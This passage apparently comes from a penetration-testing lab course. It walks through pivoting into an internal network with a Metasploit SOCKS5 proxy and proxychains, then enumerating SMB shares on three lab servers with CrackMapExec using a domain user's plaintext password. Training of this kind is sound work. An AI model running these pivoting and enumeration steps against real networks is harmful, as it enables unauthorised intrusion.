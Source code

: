 ```

msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1

msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5

msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 2.
```

> Listing 61 - Creating a SOCKS5 proxy to access the internal network from our Kali machine

The SOCKS5 proxy is now active, and we can use *proxychains* to access the internal network. Let's confirm that **/etc/proxychains4.conf** still contains the necessary settings from previous Modules. Meaning, only the SOCKS5 entry from the following listing should be active.

```
kali@kali:~/beyond$ cat /etc/proxychains4.conf
...
socks5  127.0.0.1 1080
```

> Listing 62 - proxychains configuration file settings

Finally, we are set up to enumerate the network via Proxychains.

Let's begin with CrackMapExec's SMB module to retrieve basic information of the identified servers (such as SMB settings). We'll also provide the credentials for *john* to list the SMB shares and their permissions with **\--shares**. Because CrackMapExec doesn't have an option to specify an output file, we'll copy the results manually and store them in a file.

```
kali@kali:~/beyond$ proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares
SMB         172.16.6.240    445    DCSRV1           [*] Windows 10.0 Build 20348 x64 (name:DCSRV1) (domain:beyond.com) (signing:True) (SMBv1:False)
SMB         172.16.6.241    445    INTERNALSRV1     [*] Windows 10.0 Build 20348 x64 (name:INTERNALSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         172.16.6.254    445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         172.16.6.240    445    DCSRV1           [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         172.16.6.241    445    INTERNALSRV1     [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         172.16.6.240    445    DCSRV1           [+] Enumerated shares
SMB         172.16.6.240    445    DCSRV1           Share           Permissions     Remark
SMB         172.16.6.240    445    DCSRV1           -----           -----------     ------
SMB         172.16.6.240    445    DCSRV1           ADMIN$                          Remote Admin
SMB         172.16.6.240    445    DCSRV1           C$                              Default share
SMB         172.16.6.240    445    DCSRV1           IPC$            READ            Remote IPC
SMB         172.16.6.240    445    DCSRV1           NETLOGON        READ            Logon server share 
SMB         172.16.6.240    445    DCSRV1           SYSVOL          READ            Logon server share 
SMB         172.16.6.241    445    INTERNALSRV1     [+] Enumerated shares
SMB         172.16.6.241    445    INTERNALSRV1     Share           Permissions     Remark
SMB         172.16.6.241    445    INTERNALSRV1     -----           -----------     ------
SMB         172.16.6.241    445    INTERNALSRV1     ADMIN$                          Remote Admin
SMB         172.16.6.241    445    INTERNALSRV1     C$                              Default share
SMB         172.16.6.241    445    INTERNALSRV1     IPC$            READ            Remote IPC
SMB         172.16.6.254    445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL 
SMB         172.16.6.254    445    MAILSRV1         [+] Enumerated shares
SMB         172.16.6.254    445    MAILSRV1         Share           Permissions     Remark
SMB         172.16.6.254    445    MAILSRV1         -----           -----------     ------
SMB         172.16.6.254    445    MAILSRV1         ADMIN$                          Remote Admin
SMB         172.16.6.254    445    MAILSRV1         C$                              Default share
SMB         172.16.6.254    445    MAILSRV1         IPC$            READ            Remote IPC
```